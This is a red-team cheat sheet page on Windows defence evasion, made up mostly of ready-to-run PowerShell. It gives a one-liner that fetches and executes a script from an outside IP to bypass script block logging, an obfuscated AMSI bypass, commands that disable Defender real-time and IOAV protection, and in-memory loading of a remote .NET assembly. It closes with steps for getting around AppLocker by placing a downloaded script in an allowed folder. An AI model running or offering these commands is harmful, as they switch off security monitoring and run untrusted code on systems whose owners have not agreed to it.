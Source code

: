 # Evasion

### Bypass AMSI

First bypass the Enhanced Script Block Logging

```powershell
iex (iwr http://172.16.99.115/sbloggingbypass.txt -UseBasicParsing)
```

To bypass the AMSI

{% code overflow="wrap" %}
```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
{% endcode %}

### Disable AV

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVprotection $true -Verbose
```

### Execute exe

bypass amsi and then

{% code overflow="wrap" %}
```powershell
$data=(New-Object System.Net.WebClient).DownloadData('<URL>');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[<Program>.Program]::Main("");[Console]::SetOut($out);$sWriter.ToString()
```
{% endcode %}

### Constrained Language

<figure><img src="../../.gitbook/assets/Pasted image 20231220160920.png" alt=""><figcaption></figcaption></figure>

Cannot create type. Only core types are supported in this language mode.

To check if you're running in constrained language mode on local

```
reg query 
HKLM\Software\Policies\Microsoft\Windows\SRPV2
```

on remote

```
reg query 
HKLM\Software\Policies\Microsoft\Windows\SRPV2 -ComputerName <MACHINE NAME>
```

<figure><img src="../../.gitbook/assets/Pasted image 20231220161133 (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections -ComputerName <MACHINE NAME>
```
{% endcode %}

<figure><img src="../../.gitbook/assets/Pasted image 20231220161307.png" alt=""><figcaption></figcaption></figure>

It say that we can run program inside C:\Program Files folder, so download the script inside it and run it
